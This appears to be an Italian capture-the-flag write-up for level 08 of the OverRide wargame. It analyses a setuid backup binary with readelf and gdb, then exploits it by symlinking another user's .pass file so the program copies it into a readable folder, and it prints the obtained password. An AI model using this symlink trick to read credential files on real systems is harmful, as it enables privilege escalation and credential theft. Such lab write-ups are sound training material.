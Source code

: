 # Level 08
Controlliamo le stringhe presenti nel binario:
```
level08@OverRide:~$ readelf -p '.rodata' level08

String dump of section '.rodata':
  [     6]  LOG: %s^J
  [     f]  Usage: %s filename^J
  [    23]  w
  [    25]  ./backups/.log
  [    34]  ERROR: Failed to open %s^J
  [    4e]  Starting back up:
  [    61]  r
  [    63]  ./backups/
  [    6e]  ERROR: Failed to open %s%s^J
  [    8a]  Finished back up
```
e analizziamo con `gdb`:
```
level08@OverRide:~$ gdb -q level08
Reading symbols from /home/users/level08/level08...(no debugging symbols found)...done.
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x00000000004006c0  _init
0x00000000004006f0  strcpy
0x00000000004006f0  strcpy@plt
0x0000000000400700  write
0x0000000000400700  write@plt
0x0000000000400710  fclose
0x0000000000400710  fclose@plt
0x0000000000400720  __stack_chk_fail
0x0000000000400720  __stack_chk_fail@plt
0x0000000000400730  printf
0x0000000000400730  printf@plt
0x0000000000400740  snprintf
0x0000000000400740  snprintf@plt
0x0000000000400750  strncat
0x0000000000400750  strncat@plt
0x0000000000400760  fgetc
0x0000000000400760  fgetc@plt
0x0000000000400770  close
0x0000000000400770  close@plt
0x0000000000400780  strcspn
0x0000000000400780  strcspn@plt
0x0000000000400790  __libc_start_main
0x0000000000400790  __libc_start_main@plt
0x00000000004007a0  fprintf
0x00000000004007a0  fprintf@plt
0x00000000004007b0  open
0x00000000004007b0  open@plt
0x00000000004007c0  fopen
0x00000000004007c0  fopen@plt
0x00000000004007d0  exit
0x00000000004007d0  exit@plt
0x00000000004007e0  _start
0x000000000040080c  call_gmon_start
0x0000000000400830  __do_global_dtors_aux
0x00000000004008a0  frame_dummy
0x00000000004008c4  log_wrapper
0x00000000004009f0  main
0x0000000000400c60  __libc_csu_init
0x0000000000400cf0  __libc_csu_fini
0x0000000000400d00  __do_global_ctors_aux
0x0000000000400d38  _fini
```

### Funzione `main`:
Apre il file `.log` presente nella cartella `backups` e successivamente apre il file dato
come primo argomento per poi aggiungere al nome del file il percorso `./backups/`
e dunque creare il file dove andrà a fare una copia.

### Funzione `log_wrapper`
Scrive nel file passato come argomento la stringa passata.

### Soluzione
Basta creare un collegamento al file `/home/users/level09/.pass`, così che il programma legge e duplica
il file nella cartella `backups` e noi abbiamo i permessi per leggerlo:
```
level08@OverRide:~$ chmod +w .
level08@OverRide:~$ ln -s /home/users/level09/.pass exploit
level08@OverRide:~$ ./level08 exploit
level08@OverRide:~$ cat backups/exploit
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```
```
level08@OverRide:~$ su level09
Password: fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   /home/users/level09/level09
level09@OverRide:~$
```